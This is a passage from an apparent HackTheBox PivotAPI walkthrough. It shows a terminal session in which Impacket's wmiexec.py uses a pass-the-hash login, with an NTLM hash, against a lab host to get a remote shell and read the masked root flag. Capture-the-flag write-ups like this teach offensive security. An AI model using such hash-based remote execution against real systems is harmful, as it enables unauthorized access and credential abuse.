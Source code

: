 

    oxdf@parrot$ wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:c33f387f6f7ab01aa1a8a29039d9feef cybervaca@10.10.10.240
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    licordebellota\cybervaca
    C:\>cd \users\cybervaca\desktop
    C:\users\cybervaca\desktop>type root.txt
    b32c5e3e************************




[« PivotAPI Walkthrough](/htb-pivotapi.md)






